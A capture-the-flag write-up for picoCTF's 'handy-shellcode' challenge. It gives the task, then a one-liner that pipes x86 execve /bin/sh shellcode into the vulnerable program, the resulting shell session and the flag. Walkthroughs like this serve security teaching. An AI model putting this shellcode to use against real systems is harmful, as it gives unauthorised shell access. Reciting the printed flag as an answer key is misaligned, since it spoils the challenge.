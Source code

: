 # handy-shellcode 
## Question
>This [program](files/vuln) executes any shellcode that you give it. Can you spawn a shell and use that to read the i`flag.txt`? You can find the program in `/problems/handy-shellcode_2_6ad1f834bdcf9fcfb41200ca8d0f55a6` on the shell server. [Source](files/vuln.c).

## Hint
>You might be able to find some good shellcode online.

# Solution
Shellcode found [here](http://shell-storm.org/shellcode/files/shellcode-827.php). It will execute a shell.
~~~~
$ (python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'"; cat) | ./vuln 
Enter your shellcode:
1�Ph//shh/bin��PS��

Thanks! Executing now...
ls
flag.txt  vuln	vuln.c
cat flag.txt
picoCTF{h4ndY_d4ndY_sh311c0d3_707f1a87}
^C
~~~~
# Flag
`picoCTF{h4ndY_d4ndY_sh311c0d3_707f1a87}`
